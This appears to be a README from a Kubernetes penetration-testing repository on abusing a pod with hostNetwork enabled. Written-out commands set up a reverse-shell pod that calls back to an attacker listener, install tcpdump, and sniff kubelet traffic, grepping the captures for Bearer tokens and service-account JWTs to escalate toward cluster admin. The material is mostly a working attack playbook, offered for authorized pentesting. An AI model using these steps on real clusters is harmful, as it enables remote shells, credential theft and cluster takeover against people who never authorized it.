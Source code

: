 # Bad Pod #6: hostNetwork

If you only have `hostNetwork=true`, you can't get privileged code execution on the host directly, but if your cross your fingers you might still find a path to cluster admin. There are two potential escalation paths: 
* **Sniff traffic** - You can use `tcpdump` to sniff unencrypted traffic on any interface on the host. You might get lucky and find `service account` tokens or other sensitive information that is transmitted over unencrypted channels.
* **Access services bound to localhost** - You can also reach services that only listen on the host’s loopback interface or are otherwise blocked by network polices. These services might turn into a fruitful privilege escalation path.

# Pod Creation
## Create a pod you can exec into
Create pod
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml 
```
Exec into pod 
```bash
kubectl exec -it hostnetwork-exec-pod -- bash
```

## Reverse shell pod

Set up listener
```bash
nc -nvlp 3116
```

Create pod from local manifest without modifying it by using env variables and envsubst
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/everything-allowed/pod/hostnetwork/pod/hostnetwork-revshell-pod.yaml | kubectl apply -f -
```

Catch the shell
```bash
$ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post Exploitation 

#### Install tcpdump and sniff traffic 
**Note:** If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes `tcpdump`, like https://hub.docker.com/r/corfr/tcpdump

```bash
apt update && apt -y install tcpdump net-tools netcat
```
You now have a few options for next steps: 

See if the `kubelet` read port (10255/tcp) is open on any of the node's IPs
```bash
nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!
```

If the read port is open, run `tcpdump`, recording the output to a file for a few minutes.

**Warning:** Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
**Warning:** Always run `tcpdump` with the `-n` flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 

```bash
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255
```
Stop the capture and read the file with `tcpdump`.  Tip: Use the `-A` flag to only show the printable characters and hunt for things like tokens with `grep`. 

```bash
tcpdump -ro kubelet-ro.cap -s0 -A
tcpdump -ro kubelet-ro.cap -s0 -A | grep Bearer
```

Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt token. If you are really lucky, that token might be associated with a service account in `kube-system`.


#### Another path: Investigate local services
```bash
curl https://localhost:1234/metrics
```

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.
